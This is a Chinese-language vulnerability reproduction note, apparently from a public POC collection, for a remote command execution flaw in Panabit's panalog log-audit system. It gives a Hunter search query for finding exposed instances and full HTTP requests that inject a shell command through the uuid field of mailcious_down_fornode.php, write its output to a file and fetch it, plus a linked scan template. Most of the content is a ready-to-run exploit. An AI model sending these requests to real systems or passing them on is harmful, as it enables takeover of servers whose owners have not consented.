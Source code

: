 # panabit日志审计系统mailcious_down_fornode远程命令执行漏洞

# 一、漏洞简介
panalog为北京派网软件有限公司，一款流量分析，日志分析管理的一款软件。panabit日志审计系统mailcious_down_fornode远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ Panabit panalog

# 三、资产测绘
+ hunter`app.name="Panabit 日志系统"`
+ 特征

![1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f.png](./img/PDxyT-yAQSiNXykj/1699191878681-4fe56d76-6ee5-4a90-af37-1cf8a983f57f-247645.png)

# 四、漏洞复现
```java
POST /mailcious_down_fornode.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Content-Length: 40
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1,192.168.170.105,172.10.107.143

action=check&uuid=;whoami > pobjejsh.txt
```

![1708524892745-3b5bf667-ecd6-4a9b-bbce-5c21566165de.png](./img/PDxyT-yAQSiNXykj/1708524892745-3b5bf667-ecd6-4a9b-bbce-5c21566165de-715574.png)

获取命令执行结果

```java
GET /pobjejsh.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Connection: close
Content-Type: text/plain
Accept-Encoding: gzip, deflate
```

![1708524929552-5534bed2-5da0-4c33-a551-21bc90dbe0ec.png](./img/PDxyT-yAQSiNXykj/1708524929552-5534bed2-5da0-4c33-a551-21bc90dbe0ec-650538.png)[panabit-mailcious-down-fornode-远程命令执行.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222233874-8275a922-bf36-45a6-b083-4536ea247db0.yaml)





> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qkhnzs3bu0s8zxxn>